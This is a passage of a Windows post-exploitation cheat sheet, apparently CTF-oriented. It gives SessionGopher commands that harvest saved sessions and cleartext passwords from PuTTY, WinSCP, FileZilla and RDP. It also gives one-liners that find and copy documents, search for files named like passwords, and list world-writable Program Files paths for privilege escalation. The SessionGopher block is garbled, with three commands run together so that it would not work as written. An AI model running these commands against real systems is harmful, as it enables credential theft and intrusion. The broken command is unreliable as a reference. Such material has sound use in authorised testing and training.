 The tool [**SessionGopher**](https://github.com/Arvanaghi/SessionGopher) search for **sessions**, **usernames** and **passwords** of several tools that save this data in clear text (PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP)

```
Import-Module path\to\SessionGopher.ps1;Invoke-SessionGopher -ThoroughInvoke-SessionGopher -AllDomain -oInvoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p [email protected]
```

## Files and Shares

### find files by name

```
gdr -PSProvider 'FileSystem' | %{ls -r $_.root} 2>$null | where { $_.name -eq "flag.txt"} -verbose
```

find all DOC files in C drive

```
Get-ChildItem -Recurse -Include *.doc | % {Copy-Item $_.FullName -destination c:\temp}
```

### search for a string/regex in a file

```
type [file] | find /i "[string]"
type [file] | findstr [regex]
```

search for a file in a directory

```
dir /b /s [directory]\[file]
dir /b /s c:\wmic.exe
```

### find all files with a particular name:

```
Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt
```

### show drives and disk info

```
fsutil fsinfo
```

tree map of a drive

```
tree C:\ /f /a > C:\output_of_tree.txt
```

### find writable files

```
accesschk.exe -uws "Everyone" "C:\Program Files"

Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}

Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone"}
```

